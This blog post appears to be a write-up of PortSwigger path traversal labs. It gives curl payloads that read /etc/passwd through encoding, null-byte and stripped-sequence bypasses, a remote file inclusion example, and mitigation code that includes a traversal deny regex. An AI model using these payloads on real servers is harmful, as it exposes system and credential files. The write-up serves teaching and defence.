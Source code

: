 ```yaml
---
layout: post
title: "Directory Path Traversal"
date: 2025-06-27 00:00:00 +0100
categories: [portswigger, hacking, theory]
tags: [labs, directory traversal, path traversal, web]
---
```


![picname](pics/path_trav.png)

### Intro
Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Even more info/payloads could be found here -> https://swisskyrepo.github.io/PayloadsAllTheThings/Directory%20Traversal/

### Path traversal labs (Apprentice)

#### Lab: File path traversal, simple case
- Just find any image and take a look on a path

```html
curl https://0a06005d03c537ec83b6059800a500ec.web-security-academy.net/image?filename=../../../etc/passwd
```

### Path traversal labs (Practioner)

#### Lab: File path traversal, traversal sequences blocked with absolute path bypass
- Let's just give a try for an absolute path bypass

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=/etc/passwd
```

#### Lab: File path traversal, traversal sequences stripped non-recursively
- Next option after an absolute path - add more dots and slashes (such as `....//` or `....\/`):

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=....//....//....//etc/passwd
```

#### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
- Let's try `%2e%2e%2f` and `%252e%252e%252f` or some non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f` also could work:

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

#### Lab: File path traversal, validation of start of path
- An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`:

From this: `https://<YOUR-LAB>.web-security-academy.net/image?filename=/var/www/images/36.jpg` ->

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=/var/www/images/../../../../etc/passwd
```

#### File path traversal, validation of file extension with null byte bypass
- It could be possible to use a null byte to effectively terminate the file path before the required extension:

From `https://<YOUR-LAB>.web-security-academy.net/image?filename=70.jpg` ->

```html
curl https://<YOUR-LAB>.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg
```

### Even more examples to test
- In the Cookies: `Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`
- If protocols are accepted as arguments, as in the above example, it’s also possible to probe the local filesystem this way: `http://example.com/index.php?file=file:///etc/passwd`
- It’s also possible to include files and scripts located on external website: `http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

### Mitigation Techniques
- *Never trust user input* - always treat file names or paths from user input as untrusted.
- *Use whitelisting* - instead of letting users specify arbitrary paths, use predefined identifiers or filenames:

```python
allowed_files = {
    "profile_pic": "/app/user_images/profile.png",
    "report": "/app/reports/user_report.pdf"
}

filename = request.GET.get("file")
if filename in allowed_files:
    return send_file(allowed_files[filename])
else:
    abort(403)
```

- *Normalize and validate paths* - use language-specific utilities to normalize paths and ensure they stay within a safe base directory.

```python
import os

BASE_DIR = "/app/uploads"
user_input = request.GET.get("file")
safe_path = os.path.abspath(os.path.join(BASE_DIR, user_input))

if not safe_path.startswith(BASE_DIR):
    abort(403)

with open(safe_path) as f:
    return f.read()
```

- *Deny path traversal characters* - reject inputs containing `../`, `..\\`, or absolute paths (/etc/, C:\).

```js
if (/(\.\.\/)|(\.\.\\)|(^\/)|(^[a-zA-Z]:\\)/.test(userInput)) {
  throw new Error("Invalid file path");
}
```

- *Use secure APIs or file resolvers* - frameworks like Django, Flask, or Express often have utilities that abstract file handling. Use them when possible.
- *Run with least privileges* - ensure the server or app only has access to necessary directories/files and not full system access.
- *Log and monitor access attempts* - detect and block brute-force or exploratory attempts like repeated `../../` in requests.
